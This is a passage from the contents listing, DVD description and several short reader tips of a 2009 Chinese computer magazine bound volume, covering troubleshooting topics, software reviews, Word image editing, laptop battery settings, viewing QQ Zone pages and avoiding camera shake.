- 264: McAfee安装时出现1920错误
- 264: PQ无法给硬盘分区
- 264: 魔兽运行时总是黑屏
- 264: 无法卸载Acronis Disk Director Suite
- 264: 闪盘数据复制到硬盘提示权限问题
- 264: Virtual Drive Manage出现0050蓝屏
- 264: 系统出现Packet.dll错误
- 264: 刻录的CD音量不一
- 264: 公式编辑器出现乱码
- 265: Ramdisk虚拟硬盘中的文件会自动消失
- 265: Process Explorer无法替代系统进程管理器
- 265: 万能五笔输入繁体字出现乱码
- 265: Potplayer不能自动播放电视剧
- 265: Windows 7下无法使用CCTVBOX
- 265: 怀疑对方不是我的QQ好友了，怎么确认
- 265: 无法使用QQ农场全屏助手
- 265: 无法安装驱动精灵

## 网络
- 265: 系统还原后QQ空间图片显示不正常
- 265: 拨号连接总是卡死

## 硬件

265 网络游戏不能登录
269 QQ农场重启后总要安装Flash插件
265 阿里旺旺内嵌链接失效
269 Firefox经常崩溃
265 傲游下载器损坏
269 找回IE图标
265 彻底解决IE8网页按钮小的问题
269 傲游无法显示图片
266 IE8无法安装CCTV插件
269 点击QQ上的按钮没反应
266 IE总是打开酷站189
269 聊天软件出现0x00000005错误
266 下载文件快但玩游戏慢
269 无法设置IP地址
266 无线上网不正常
269 傲游标签总是自动刷新
266 IE浏览器的自动完成功能失效
269 IE打开QQ邮箱进入英文模式
266 QQ头像处总显示QQ号
269 Windows 7下无法保存傲游设置
266 无法找到QQ群共享
270 IE核心的浏览器打不开百度贴吧
266 阿里旺旺聊天看不到消息记录
270 网页搜索框不能输入
266 注册校内网收不到邮件
270 无法查询手机话费
266 局域网为何不能访问
270 QQ传文件非常慢
266 为何找不到TCP/IP协议项
270 宽带连接问题
266 突破远程桌面连接限制
270 部分网络访问特别慢
266 宽带连接为何很慢
270 Firefox无法自动升级
266 农行网银无法支付
270 两个账号同时登录出现问题
267 网址自动重定向
270 Chrome起始页无法修改
267 Outlook下载邮件后总是将源邮件删除
270 傲游无法切换用户
267 无法安装Windows Live Messenger
270 QQ农场无法进入
267 总是发出乱码邮件
270 转换地址后无法下载
267 下载文件总是下载不完全
267 QQ、TM总是假死
270 实现混合交火对显卡有要求
267 打开网址变成下载文件
271 电源供电不足造成显卡问题
267 FLV下载后总是不完整
271 开机提示硬盘问题
267 播放网页媒体没声音
271 内存故障造成软件无法运行
267 无法安装QQ2009
271 SATA硬盘变成即插即用设备
267 IE总是不能使用代理
271 Intel G43主板对内存的要求
267 笔记本无法搜索到无线网络
271 USB键盘安装系统时无法使用
267 傲游的拖拽搜索功能失效
271 Intel 奔腾双核 E5200频率降低
268 为何总是打开网页版旺旺
271 iPod为何不能充电
268 打开新标签速度巨慢
271 790GX主板花屏
268 无法打开QQ相关网页
271 显示分辨率为何无法设置
268 无法备份迅雷的下载列表
271 HDMI为何不能满屏显示
268 无法设置网络连接
271 停止HDMI的音频输出
268 MSN不能最小化到托盘
271 不能打开ASIO.SYS
268 浏览器提示加载项禁用
271 数字电视为何马赛克
268 IE搜索栏不能输入
271 BIOS写保护造成无法刷新
268 阿里旺旺内嵌链接失效
271 华硕 M4A78 PRO与PS/2接口键盘不兼容
268 支付宝提示证书过期
272 光驱无法引导系统盘
268 升级到IE8后世界之窗变慢
272 指点杆无法使用
268 不能访问Google相册
272 显示器无法调节清晰度和饱和度
268 QQ2009不能直接调用傲游
272 游戏显示效果不正常
268 无法打开IE二级页面
272 DVD刻录机无法使用
268 总是无法上网
272 硬盘设置不当造成Ghost速度下降
269 QQ无法登录
272 无线网卡找不到信号
269 淘宝旺旺收不到部分消息
272 华硕Eee PC接入USB设备问题
269 迅雷总是提示UPnP阻滞
272 CPU超频能力下降
269 Skype充值后不能打电话
272 开机提示New CPU Installed
269 QQ不能发送文件夹
272 键盘灯关机不熄灭
269 Firefox中显示图片全黑
272 开机显卡提示
272 播放MIDI音频文件不发声
272 刷新BIOS后无法进入操作系统
272 无法使用高分辨率显示器
272 BIOS刷新慢造成CPU温度低
272 税控打印机出现乱码
273 安装大内存为何硬盘容量减小
273 使用Turbo-Key死机
273 更换显卡玩游戏卡机器
273 开机为何需要多次
273 调整CPU电压死机
273 G41主板安装独立显卡无显示
273 连接液晶电视为何开机音效缩短
273 为何Ghost无法使用
273 喷墨打印机传动皮带脱落
273 休眠后风扇转速降低
273 播放蓝光格式电影CPU占用率过高
273 玩游戏出现花屏
273 运行3DMark06为何报错
274 设置不当无法安装Windows XP
274 液晶显示器为何出现绿色斑点
274 内存为何自动降频
274 为何Windows 7无法使用“XP模式”
274 开启AHCI为何蓝屏
274 Intel X58主板使用单条内存故障
274 笔记本使用电池为何自动断电
274 使用HDMI黑屏
274 无线一体机连接为何显示为脱机
274 笔记本播放音频为何有电流声
274 Windows 7下显示不正常
274 移动硬盘复制大文件报错
274 安装Windows XP重启
274 输出到电视为何显示成黑白
274 为何无法识别2GB的SD卡
274 为何不能混合交火
275 硬盘设置不当造成CPU占用率为100%
275 休眠后为何黑屏
275 CPU超频引起蓝屏现象
275 显卡金手指氧化造成PCI-E X16降级使用
275 播放音乐有爆音
275 系统自检到CPU停止
275 Windows 7与G45显卡驱动不兼容
275 BIOS设置不当造成无法无线上网
275 Windows 7下找不到IDE光驱
275 升级独立显卡硬盘发出响声
275 内存造成的蓝屏问题
275 集成显卡故障
276 131玩玩游戏平台

## CONTENTS 目录

《电脑爱好者》·合订本·正文分册

- 276: 尚邮
- 276: JavaRa
- 276: ViGlance
- 276: UnRARMenu
- 276: SkiniTunes
- 276: 红薯淘宝批量评价器
- 276: USB Manager
- 276: 我爱图片转换文本工具
- 276: 漫画下载新助手：ComicAIII
- 276: 帮你写“原创”博客的小工具：天天SEO伪原创工具
- 276: CYY发布助手
- 276: 动者卡路里计算器
- 276: Adobe Reader助手
- 276: Excel筛选
- 276: 个人理财专家
- 276: 博客魔术手
- 276: 魔兽地图傻瓜下载器
- 276: 校内网人气精灵
- 276: QQ停车位全能助手
- 276: FLV Extract
- 276: 淘宝专用搜索工具
- 276: 国外网盘下载器：FreeRapid Downloader
- 276: 偷偷的我将查看聊天记录：塞博聊天记录监控器
- 276: QiQi淘宝店铺监视自动助手
- 276: 黑营QQ军刀
- 276: SyncPlicity
- 277: 文献检索列表转换器
- 277: 热血三国辅助
- 277: 日语单词进阶背诵工具
- 277: 搜狗音乐盒
- 277: Safari 4
- 277: 勇芳QQ快捷菜单
- 277: 装机人员专业工具箱
- 277: 注册表垃圾清理器
- 277: 新浪UT Game
- 277: 在线视频全下载：xmlbar
- 277: 推翻“服务器”的统治地位：Opera Unite
- 277: 迷你迅雷
- 277: Go手机浏览器
- 277: 超级解霸 3500
- 277: 婚礼请柬
- 277: Batch Image Resizer
- 277: Marxio Timer
- 277: 360杀毒
- 277: 魔爪
- 277: 东奔西走，不如一软在手：U盘百宝箱
- 277: 不逊于F**、E**的文件恢复软件：R-Studio
- 277: 射手影音播放器
- 277: 世界之窗浏览器
- 277: 贝壳木马专杀
- 277: 迅雷定时下载工具
- 277: 作文之星&作文快手
- 278: 右键菜单管理器
- 278 网络证件恶搞工具
- 278 Atrise Lutcurve
- 278 决策主力下载器
- 278 QQ空间克隆器
- 278 QQ同步助手
- 278 OperaTor
- 278 极点五笔输入法
- 278 歌谱精灵
- 278 按键映射器
- 278 Audio Video Synchronizer
- 278 新浪互联星空播客上传工具
- 278 游戏名字生成精灵
- 278 U盘只读不存
- 278 能邦敏感信息审查
- 278 笔记本守卫者
- 278 九零天空服务设置工具
- 278 实创通信录
- 278 好压
- 278 Shape Collage
- 278 判断显示器好坏
- 278 天涯浏览器
- 278 畅游精灵
- 278 光盘伺服器
- 278 泰力
- 278 APK安装器
- 278 专用链接转换工具
- 278 电脑硬件接口详细图解
- 278 灰色菜单克星
- 279 淘宝图片助手
- 279 博客沙发王
- 279 魔兽版本转换器 3.1
- 279 瓷砖马赛克设计软件
- 279 暴风转码
- 279 中键双击
- 279 太阳花浏览器
- 279 电影收藏家
- 279 魅佳(Add0nis)
- 279 品牌机隐藏分区(释放)工具
- 279 QQ浏览器（手机版）
- 279 笑话集中营
- 279 常用软件运行库
- 279 笔记本防盗大师 0.6 beta
- 279 移动游戏启动器1.9.9.710
- 279 笔记之王2009 3.06
- 279 数据恢复软件10合1
- 279 狂人QQ好友分析师
- 279 用口诀背英语单词
- 279 P2P网络电视录像专家
- 279 Dictionary .NET
- 279 PDF工具包 14合1
- 279 Tv France英文字体
- 279 泡面计时器
- 279 漫画集
- 280 XnView右键菜单
- 280 QQ好友群发器
- 280 MTV分享精灵
- 280 鱼鱼桌面
- 280 HideToolz
- 280 热键猎手
- 280 reflet
- 280 批量图片合并器
- 280 唐风藏头诗生成器
- 280 宏杰文件夹加密软件
- 280 网络自由行
- 280 OpenCanvas
- 280 巨盾网游安全盾
- 280 开心农场计时提醒计算器
- 280 YlmF 系统 DIY
- 280 DAEMON Tools Lite
- 280 反监视
- 280 聊天骚扰器
- 280 美萍记账通
- 280 QQ农场盗匪

## 小抄速记

- 281 系统
- 282 网络
- 284 软件
- 286 办公
- 288 硬件

## 天生我才

- 292 毕业生：我的未来不是梦 七大疑问解决IT职业规划难
- 293 设计别人的人生：网游任务策划师
- 294 站在网络技术行业的高岗上——NCRE四级网络工程师考试解读
- 294 Flash不神秘，手把手教你做课件系列之Flash补间动画与形状，闪闪更精彩
- 294 一月冲钻不是梦，农家女士特产网店的秘密
- 295 速成数据恢复工程师：数据恢复基础
- 296 网店和旅游手拉手，滚滚客源不用愁
- 296 我是数据指挥家 NCRE三级数据库技术与四级数据库工程师考试解读
- 297 在校生，请时刻准备着为找工作而努力奋斗
- 298 Flash不神秘，手把手教你做课件系列之巧用Flash模板，测验类课件速成
- 298 品三味套餐，玩转多媒体教学课件
- 298 网店设计师——用电脑做装修的人
- 299 教育部考试中心专稿：2009年全国计算机等级考试官方重难点真题分析（C++篇）
- 300 速成数据恢复工程师：找回误Ghost的数据
- 300 Flash不神秘，手把手教你做课件系列之 胸有蓝图，Flash课件整体构思实例谈
- 301 你该如何找到好工作
- 302 威客，设计达人就是我
- 302 Flash不神秘，手把手教你做课件系列之 Flash课件导航巧构思
- 303 找好“金饭碗”的最后一步：面试
- 304 速成数据恢复工程师：找回不同分区中的数据
- 304 巧建学生上传作业的快捷通道
- 305 教育部考试中心专稿 2009年上半年全国计算机考试官方重难点真题分析（二级C语言篇）
- 305 住在心灵里的刀刀狗用电脑和网络打开一扇窗
- 306 门槛最低的IT白领：网络编辑
- 306 课件制作软件不兼容？驯服有术
- 307 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（二级VFP、VB篇）
- 307 网络为媒，小格子也有大智慧
- 308 门槛最低的IT白领：做“网编”必耳听六路
- 309 平面设计师生存手册：小图标里的大意义
- 310 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（三级数据库篇）
- 310 Flash课件发布那些事
- 311 平面设计师生存手册：寻找最佳的起点
- 312 好网编是如何练成的 网络专题的那点事
- 312 网络钟点工，白领兼职新方式
- 313 速成数据恢复工程师：找回分区被格式化的数据
- 314 平面设计师生存手册：在报刊社寻找一席之地
- 315 好网编是如何练成的 流量就是RMB!
- 316 距离不是问题，网络家教很便利
- 316 调客，吊起你的网赚胃口来
- 317 网络模特 时尚网店的一把火
- 317 平面设计师生存手册：企业里的平面设计
- 318 最另类的网编：论坛编辑
- 318 搞定H3C(华三)认证 向网络专才迈进一步
- 319 速成数据恢复工程师：从分区表中找回数据
- 320 2010年各大公司笔试题大揭秘（一）
- 321 思科认证大揭秘
- 321 英语四、六级冲刺数码备战全攻略
- 322 2010年各大公司笔试题大揭秘（二）
- 322 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（三级网络篇）
- 323 平面设计师生存手册：机会风从网上来
- 324 我爱Windows Mobile：与WM的第一次亲密接触
- 325 平面设计师生存手册：方寸之间天地宽

## 硬派圈子

- 326 买本3000元1年 还是5年5000元
- 326 吃螃蟹！3G上网本初体验
- 326 自定义华硕本本的Instant Fun快捷键
- 327 找回惠普本本失效的快捷键
- 327 关屏怎会牵连ADSL
- 327 山寨手机是重灾区
- 327 超便携本本 你会买吗
- 327 大牌就是系列多：惠普篇
- 327 穿上马甲变成超薄无线路由器
- 327 做菜靠手艺，煲“鸡”有偏方
- 328 智能手机+个人电脑——疯狂的蓝牙
- 328 “电脑失写症”——无文时代的到来，你们恐慌吗？
- 329 暑促到了 消费者不能只认低价
- 329 面对不容忽视的危害 选购绿色耳机吧
- 329 上网本为什么只有1GB
- 330 升级无线网卡 要稳定还是要速度
- 330 Vista电池延时术 要多久有多久
- 330 为什么联想Y550不能用桌面导航
- 331 省钱的办法多——多功能一体机迎娶连供系统
- 331 大牌就是系列多：东芝篇
- 331 蚊声嗡嗡 本本高频噪音惹人忧
- 331 黑盒还是彩盒
- 332 谣言终结者之芯片篇
- 332 好包包坏包包 背包攻略全知道
- 333 鱼龙混杂山寨与正品共存
- 333 反寨联盟——雷死人不偿命的12英寸“苹果MacBook Air”！
- 333 暑期旅游 好风景 好段子
- 333 限定中国发售真的要抵制吗
- 334 斩杀卧底 攻破EPSON打印机墨盒监控防线
- 334 有据怎能没理
- 334 让你的本本也能多点触摸！
- 335 路漫漫其修远 国内MP3品牌出路何方
- 335 小成本 小制作 解决USB供电不足的小问题
- 335 三诺摩机大赛 期待新一轮的王者
- 336 丰衣足食 网店拍照自己来
- 336 自制多头USB手机充电器
- 336 噪声阵阵何必烦忧
- 337 性能至高论 你还能走多久
- 337 i3、i5傻傻分不清楚
- 337 大牌就是系列多：Acer篇
- 338 DIY与整机 谁是DIY将死的原罪
- 338 万变不离其宗 读卡器导购技巧
- 338 做人不学三季稻 用本不能只两年
- 339 Go Go Go 3G攻略 达人速入
- 339 玩《生化危机5》你需要啥本
- 340 我们可以仿造 还能“创造”
- 340 闪光灯不好用 一张白纸都搞定
- 340 堆料你还差很远
- 340 打包才是王道 3A平台驱动一键安装
- 340 单键拨号也会有你不知道的妙用
- 340 你的硬解谁做主？
- 341 捆绑Windows 7 是谁拖住了硬件的后腿
- 341 巧贴膜 保护本本自己动手
- 341 给本本找个无尾宠物鼠

## 342: 专家解读: 秋季IDF惊现4大亮点

## 342: Windows 7 看得分买电脑可行吗

## 343: 重回艾泽拉斯 魔兽开服优化购机攻略

## 343: 当MP4只有色差输出时如何将画面映在老旧的电视上

## 344: 无线技术 甩掉耳机的“尾巴”

## 344: 《被遗忘的时光》不能被遗忘的失真之音

## 344: 将照片做成MTV在MP4中欣赏

## 345: 三诺摩机大赛 也许你就是下一站的冠军

## 345: 别让显示器变成镜子

## 346: 二手手机选购指南

## 346: 设计大赛背后的阴谋 第三届航嘉机箱创意设计大赛后记

## 346: 手机照相功能的另类妙用

## 347: 电池不是这么玩的 炸了并不一定是它的错

## 347: 汽车人变形出发 打造变形金刚迷准装备

## 347: 烤鸡蛋的本本怎么用

## 348: 日系本本你会买吗

## 348: 细说诺基亚智能手机功能按键

## 348: 套个外壳就是外置光驱? 警惕滥竽充数的山寨光驱

## 348: 带着电源看医生

## 349: 驱动程序 装还是不装

## 349: 花小钱省大钱 廉价BT下载机选购

## 350: 游戏本本如何选“芯”

## 350: 低调而沉稳 厚积薄发的漫步者

## 350: 最后一代迅驰最长命的选择?

## 350: 聊天室背景放音乐 为啥我的本本就不行

## 351: 认清标识 选对相机

## 351: 为60华诞献礼 超低价2.1多媒体音箱大搜罗

## 351: 老古董新生命 小记固件刷新的若干问题

## 352: Quiet进中国安静不下来

## 352: 带你去逛网上旗舰店

## 352: 笔记本硬盘5400rpm 500GB 还是7200rpm 320GB?

## 352: 本本联网兼容问题不可忽略

## 353: 大逃亡? 卖场撤柜未必是坏事

## 353: 新学期 学生平民智能手机选购

## 353: 弹不断的琴弦 一拉就断的耳机线

## 354: 大牌就是系列多: Gateway篇

## 354: 小改N78 GPS天线

## 354: 你了解鼠标的指标么

## 354: i3靠边站 E5300对决速龙240

## 355: 暴力散热底座变温柔

## 355: 谁说多机上网一定要靠设备

## 355: 同质化还是创新 是一个难以抉择的问题——专访技嘉科技

## 356: 轻薄风潮来袭 谁将独领风骚

## 356: 价格决定机型已过时

## 357: 我的街机我做主

## 357: 再一次掌上电脑之死

## 357: 大牌就是系列多: SONY篇

## 358: GT240M GT130M的新马甲?

## 358: 安装S60软件出错? 来签个名吧

## 358: 解决Acer 6930G Windows XP下破音的烦恼

## 358: 10分钟开启Intel GM45集成显卡的高清硬解

## 358: 关于无线键鼠的点点滴滴

## 359: 3G无线路由VS传统无线路由

## 359: 2010年 台式机大爆发?

## 359: 没门有窗户 老机也能玩Windows 7

## 360: 风扇是侧吹好 还是下压更牛?

## 360: 电脑也配遥控器

## 360: 百元电源体质也够悍

## 361: 超囧网购买家 咱不能再这样了

## 361: 大牌就是系列多: 华硕篇

## 361: 打造更完美的歌美X690HD

## 362: MP4够雷 MID够囧 MP4剑指MID

## 362: 菜菜老爸的智能山寨机

## 362: Windows XP下Y550调节亮度的困扰

## 363: 点燃Intel GMA显卡 游戏也能玩到爆

## 363: Intel 酷睿i5/i7上市 又见ES版CPU

## 363: 大牌就是系列多: 微星篇

## 364: 寻找CPU的最低电压

## 364: 便携年轻人的消费新主张

## 364: 快来看看你的本本能不能升级Windows 7

## 365: IDE口老本换硬盘 警惕二手充新

## 365: 能看电视的高清LCD显示器

## 365: 老驱动的第二春

## 365: 卡片机也玩背景虚化

## 366: AMD发狠 5000+核变

## 366: 看两个高清才过瘾

## 366: 批量安装好帮手

## 366: 给“破核党”降降温

## 367: 选你想要的MP4

## 367: 傻博士眼中的“听力杀手”

## 368: 学过算术就能买合适存储卡

## 368: “挂Q”聊天只靠“智能机”

## 368: 选耳麦 从细节着眼

## 369: 买耳麦看哪里 不明白让大虾告诉你

## 369: 你敢用吗? 用502胶水导热的散热器!

## 369: 恶意软件 你恶心了谁

## 370: BANK非银行 认清再买DDR3

## 370: 咱有免费的12580

## 370: 雪景如此美丽 我该怎么留住你

## 371: 上网本与轻薄本? 按“需”选择才是根本

## 371: 看一看数码潮人的家—— 时间篇

## 371: 放弃联通iPhone! “摸”出新精彩

## 372: 你又把自己玩了! 到底是什么挡住了3G的脚步

## 372: 免费的点读机 随时随地可查的英汉大词典

## 372: 修复CUE 还我无损CD

## 373: 哆啦A梦来了 生活因创新而更美好

## 373: 一寸长一寸强 长焦卡片机 卡片机中的战斗机

## 374: 解开迷你音箱误区之谜

## 375: CUDA来帮忙，手机也能拍大片

## 375: 数据接口渐入第三代，想说爱你并不容易

## 376: DDR3、DDR2我该选哪个

## 376: 38℃机箱退休时间到

## 376: 都啥年头了，移动硬盘还是供电不足?

## 2009《电脑爱好者》合订本（下半年）配套光盘DVD目录

### 2009年《电脑爱好者》全文检索

收录了2009年1～23期《电脑爱好者》的完美电子版，包含封面和目录，并提供了全文关键词检索功能。读者通过PDF阅读器可以方便的阅读和查找自己感兴趣的内容。


### 2009年《e游》电子杂志

《e游》周刊是专业旅游资讯传播电子媒体，以介绍最新旅游消费趋向，宣传旅游文化思想、开拓信息传播渠道为宗旨，是当前最权威最具影响力的旅游电子媒体。


### Microsoft Office 2010 简体中文版

微软Office官方全新推出的Office2010测试版本，Office2010版包括Word、Excel、PowerPoint、OneNote等几乎所有组件。



### 工具软件大全

特别搜集整理的软件大全，让你一盘在手，装机无忧！

- 1. 购机必备测试软件大全
- 2. 装机必备免费软件大全
- 3. 电脑安全工具软件大全
- 4. 电脑影音工具软件大全
- 5. 互联网聊天软件大全
- 6. 互联网浏览器大全
- 7. 互联网实用工具大全
- 8. 3G时代手机必备软件大全

### 网络歌曲大搜罗

收录了一百首经典的网络歌曲，一首首美妙的歌曲，一段段美丽的爱情故事！


### Office 2010的十大优势

- 1. 更直观地表达想法
- 2. 协作的绩效更高
- 3. 从更多地点更多设备上享受熟悉的Office体验
- 4. 提供强大的数据分析和可视化功能
- 5. 创建出类拔萃的演示文稿
- 6. 轻松管理大量电子邮件
- 7. 在一个位置存储并跟踪自己的所有想法和笔记
- 8. 即时传递消息
- 9. 更快、更轻松地完成任务
- 10. 在不同的设备和平台上访问工作信息

### 视频教程大全

收录了六部由中国电脑视频网、21互联教程和初学者之路提供的视频教程。

- 1. Windows 7学用教程
- 2. Vista学用教程
- 3. 互联网应用教程
- 4. 常用软件学用教程
- 5. 光影魔术手完全教程
- 6. 系统维护学用教程

#### 初学者之路


打造国内最好的网络视频教育平台

#### 21互联

www.21hulian.com
中国最好的计算机视频教程平台

#### 中国电脑视频网

beta
提供专业的电脑视频教程 致力于消灭菜鸟



## 玩转图片，Word活动总结精彩呈现

> 老板：你这份用Word做的活动总结不合格，连张图都没有，Rose的图文并茂，比你专业多了。
> 小菜：感谢您的提醒，我最善于快速学习了，这就完善去！

### 插入图片，给Word加点料

现在小菜手里的Word 2007文档全是文字，确实有些枯燥，加几张活动照片吧。选择“插入→图片”，小菜从电脑里选了几张照片导入Word文档。照片有点大，拖动鼠标可以随意缩放，有多余的区域怎么办？选中图片，进入“格式”选项卡，选择右侧的“裁剪”工具就可以直接选取需要的区域了，非常方便！

如果想获得矢量插图，可以进入“插入→剪贴画”，在“剪贴画”搜索界面右侧输入关键字就能搜索到很多相关的剪贴画（联网状态下），都是专业人员设计制作的图片。选择后就插入了当前光标处。

### 编辑图片，各种外套随意换

活动报告有了图片，仍显单调，能给图片装扮一下吗？小菜听说Word 2007的图片编辑功能很强，可以轻松将图片修饰成各种漂亮的样式，她要体验一把。



各种美妙的图片样式是Office 2007的一大亮点，除了Word 2007，PPT 2007等也有相似效果，比2003版本的效果强多了。右击图片，选择“设置图片格式”，这里有“填充”、“线条颜色”、“阴影”、“三维格式”、“旋转”等，设置参数后可以获得更丰富的效果。

### 定位置，让图片和文字如影随形

文档里文字不少，文字能否绕着图片分布呢？小菜选中图片，进入“格式→文字环绕→四周环绕型”，也可右击图片进入，还有不少其他布局方式可选择。新问题出现了，文字一修改图片就自由，一会儿上一会儿下，每次都得重新调整。这可难不倒小菜。她进入“格式→位置→其他布局选项”，在“高级版式”的“图片位置”下选中“对象随文字移动”选项。以后，该图片上方或下面的文字复制、删除、更改后，该图片就会乖乖随文字自动调整了。对了，图上还想加活动的文字说明，如何添加呢？进入“插入→文本框→绘制文本框”，在图上拖一个文本框输入文字即可。文本框是白底的，不好看！那就把它去掉，右击文本框，进入设置格式的选项，把“填充”和“线条”都设置为“无色”即可。

### 巧保存，从Word文档中还原图片

小菜把增加了图片的Word文档交给老板，老板满意地点点头，又交给她一项新任务：把上半年各项组有价值的图片从Word文档里整理出来。Word中的图片不能像网页上的图片那样单独另存出来，如何是好？小菜原来的方法是在Word中复制图片，再打开画图程序进行粘贴，不过现在图片一多就太麻烦了！后来她发现，只要单击“文件→另存为Web页”，在“文档名.files”的文件夹中，所有图片就悄悄藏在这里。奇怪，为什么同一张图会有两张呢？仔细观察，原来其中一张是原图，另一张是缩放、旋转等编辑操作后的效果图。小菜选了比较清楚的那张，顺利完成任务。
河北隆化/门艳松

## 开源节流，可谓续航之道

> 白白：这什么破玩意，买的时候说续航时间5小时，我觉得还行，5小时够跑跑客户、演示演示产品了，哪知一用才知道，3小时之内一定没电，骗子啊！骗子！我要去消协，那个消协电话多少来着，好像是12345，怎么觉得不对？
> 某虾：白白别闹了，冷静点听我说！首先，广告做得好，不如新飞冰箱好。当然广告是不能全相信的；其次，笔记本的续航需要你细心地根据自己的使用进行设置的，“欲速则不达”知道不？

### 告别入不敷出，节流先行一步

节流即如何最大限度地利用一块电池有限的电量。为笔记本电脑量身订做出电源管理软件，从软件上实现了电力的“省吃俭用”。

#### 小黑——Thinkpad篇

- 第一步：安装电源管理程序，并重新启动，然后点击“开始→ThinkVantage→Power Manager”，启动Power Manager。
- 第二步：点击下方绿色任务栏上绿色的电池图标，其中包括了性能、续航和视频播放模式（视频播放模式尤为重要，在没有进行电源管理时，视频播放消耗的电量是惊人的），此处为了达到更长的使用时间（续航）我们选择最长电池寿命。
- 第三步：在新型号笔记本中安置了双显卡，其中集成显卡是较为省电的。继续上一步的操作，在弹出菜单的最下方可以点击“可切换显卡→电量节省”。

使用Fn+F3调用选择电源方案界面（使用此功能的前提是必须把Fn+F3设置为电源管理），从这个界面可以选择电源方案，也可以通过这个界面选择关闭显示屏电源。

#### 时尚领袖——Sony篇

- 第一步：进入http://service.sony.com.cn/vaio/index.htm，在左侧按照本本型号进行电源管理软件的下载。
- 第二步：点击“开始→VAIO Control Center管理界面”，然后点击“列表”中的“VAIO电源管理浏览器”。
- 第三步：为了达到最长电池使用时间，我们在上方“更改后的电源使用方案”下拉菜单中选择“VAIO终极电池模式”。

#### 销售之王——DELL篇

- 在节能方面，Dell QuickSet具有自定义电源管理方案、LCD面板亮度控制、无线网卡开启/关闭、内部网卡电源管理、热键休眠等节能功能。默认情况下，笔记本预装的Dell QuickSet软件会缺少部分节能组件，譬如内部网卡电源管理并没有安装，此时建议将Dell QuickSet软件删除再次安装（下载地址：http://supportapj.dell.com/support/downloads/download.aspx?c=cn&l=zh&s=gen&releaseid=R204480&formatcnt=1&libid=0&fileid=285125）。

### 开源

> 大虾：“开源”即提高电池电量。针对这个课题，世界上很多顶尖的化学家正在努力。在他们研发出新电池之前。我们可以使用更多芯（也就是更大体积）的电源来解决问题。但是一块原装的6芯甚至9芯电源可价值不菲哦！
> 白白：我明白了，原来是我又白了，谢谢大虾，我回去好好设置下本本，全天续航的时代来临了……
> 大虾：做你的白日梦吧！
> 许宁

## 轻轻我走了，正如我轻轻来

看了2009年第9期的《轻轻飘过你的QQ日志，不留下一个脚印》一文，觉得其实不必那么麻烦。

第一种方法：不用登录QQ，直接在地址栏输入“http://user.qzone.qq.com/好友的QQ号码”，就可以进入没有“设防”的QQ空间了。

还有一种方法：登录QQ邮箱，点击邮箱首页的“阅读空间”，在这里会列出“好友更新”和“好友推荐”两个栏目，点击“好友更新”下面的“阅读”，所有好友更新，看到你想要“飘过”的QQ好友了吗？没有？那肯定是你的这位好友更新太“勤快”了——N天都没有更新日志了，按“下一页”翻一页吧，找到好友的名字，单击他，你需要的一幕已经展现在你的眼前，还等什么，你只需轻点鼠标，就可以飘过了。

这种方法的好处在于不需要额外验证，和你在QQ中用“进入QQ空间”享受一样的待遇。

小编点评：方法不错，这么容易的方法怎么能不推荐给大家呢？
江西/陈小华

## 与模糊说再见 降低拍照抖动小技巧

数码相机轻巧便利，适合随身携带抓拍生活瞬间，是很多初学者的最爱。但这类产品因自身重量等问题，在实际拍摄过程中极易出现手部抖动造成最终成像模糊的惨剧。怎样才能在家庭用数码相机上降低或者有效防止抖动，从而提高出片质量呢？

### 基本功要扎实

许多人对摄影这项工作并不在行，拿起DC的时候也只是作为记录生活的一种手段。与用手机拍照并无区别。所以在端起相机的时候形色各异的姿势都可能出现。这是错误的。人手的自然抖动根据体格、所持物品重量和手柄伸展有着固定的联系。当拿DC的手臂伸展的夹角与身体呈90度时，抖动便无法真正的避免了。故掌握正确的摄影姿势是大有裨益。标准的持机姿势是：右手紧握相机，食指轻放在快门键上；左手手掌向上托住整个机身。此时右手的手肘收拢，紧靠在身体上，左臂根据习惯适当调整，可贴合身体也可向外舒展，这点因人而异。为保持上半身平衡，两腿自然分开达到与肩同宽，或前后分开，使双腿与地面形成近35度左右的夹角，深呼吸后保证身体稳健后按下快门。

### 脚架当用就用

玩摄影的人基本都配有独脚架或者三脚架，任何手持方式和防抖功能都不会有脚架来得实在。只是携带上有些麻烦而已。不过在脚架使用时应注意将其放置在稳固、平坦的地面上，为防止周边事物对其的影响（各种车辆路过时引起的路面震动、工地施工等问题），适当的在脚架下悬挂重物，增加稳固性也是酌情考虑的范畴内。用DC的主儿，都不太喜欢携带架子，这样在实际拍摄的时候更应该注意巧妙的寻找临时支撑点，比如拿相机的手臂斜靠在一个牢固的树、电线杆、架子等支撑物上，甚至将相机放在凉亭、栏杆上，再配合自动拍摄功能，这样就可以有效降低照片的模糊率了。再不济单膝跪地，将膝盖作为支点也非下策。

### 回归基础 从原理说起

从相机的基本原理中，我们可以知道光圈、快门与环境光之间的对应关系。手持条件下想要得到清晰的照片，快门速度应为焦距的倒数或更高。举个简单的例子：相机镜头等效焦距是35mm~105mm（3倍光学变焦镜头），那么在广角端快门速度至少保持1/40秒才能保证拍摄的照片较为清晰，而在长焦端，快门速度应达到1/125秒才行。

决定快门速度的主要因素是环境光。若现场光线条件满足不了拍摄需求，便只能靠其他方法来实现。在弱光情况下，设置好使用最大光圈数值（DC的最大光圈值一般在2.0~3.6之间），开启内置闪光灯，并将ISO数值适当调高到可接受的范围之内（成像效果好的相机可增加到800，素质一般的DC加到400足以）。强制快门速度、准确对焦后出的片子虽然亮度不够但可以随意调整（数码的好处），若对焦不准，抖动模糊便麻烦了许多。

小知识：如果用户使用没有防抖功能的轻薄型DC，或者对焦比较慢的相机，在照相时最好不要过急进行对焦和拍摄。因为在按快门时，由于自动对焦需要少量的时间，快门不要一次按到底，半按时为自动对焦，此时可听到沙沙的对焦声音，当屏中间对焦框由红色变为绿色，说明对焦完成，这时轻轻把快门按到底，才可以得到清楚的图像。

夏季是许多摄影爱好者的发挥的季节，阳光明媚，万物皆绿、百花盛开，但在户外摄影时也需要注意一些安全防护问题。首先是防晒：夏天的阳光毒辣无情，小伙子还好说，大姑娘被晒脱了一层皮可不是闹着玩的。其实就是注意中暑问题了，如果需要长时间在阳光下工作，记得提前做好准备，并保持身体水分含量。市区的蚊虫还可忽略，郊区的就要小心了，咬一口不是闹着玩的。

